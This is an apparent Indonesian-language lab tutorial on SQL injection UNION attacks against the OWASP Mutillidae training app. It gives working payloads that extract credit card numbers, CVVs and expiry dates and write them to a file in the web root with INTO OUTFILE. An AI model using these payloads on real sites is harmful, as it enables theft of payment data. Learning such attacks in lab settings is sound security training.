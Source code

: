 # SQL Injection Union Exploit #2 (Create Output File)

## Database Practice

1. Masuk ke mysql dengan menggunakan dan gunakan database ```owasp10``` command
```
$ mysql -u root
mysql> use owasp10;  
```

2. Union accounts dengan credit_cards dengan menggunakan command
```
select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;
```
![1](/lesson9/3.png)

3. Coba untuk menyimpan data tabel dalam sebuah file dengan menggunakan command OUTFILE
```
select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';
```
![1](/lesson9/4.png)

4. Lihat isi file melalui mysql dengan menggunakan command
```
\! cat /tmp/CCN.csv
```
![1](/lesson9/5.png)

## Coba OUTFILE pada mutillidae

1. Masuk ke halaman sqli user info dengan cara klik menu pada sidebar kiri ```Owasp Top 10 -> A1 - Injection -> SQLi - Extract Data -> User Info```
![1](/lesson9/6.png)

2. Union tabel ```accounts``` dengan tabel ```credit_cards```
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards --
```
![1](/lesson9/7.png)

3. Dapat dilihat hasil unionnya
![1](/lesson9/8.png)

4. Setelah itu coba jalankan union OUTFILE dengan menggunakan command
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/var/www/html/mutillidae/CCN2.txt' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED BY '\n' --
```
jangan lupa unutk menambahkan spasi setelah syntax comment ```"-- "```
![1](/lesson9/9.png)
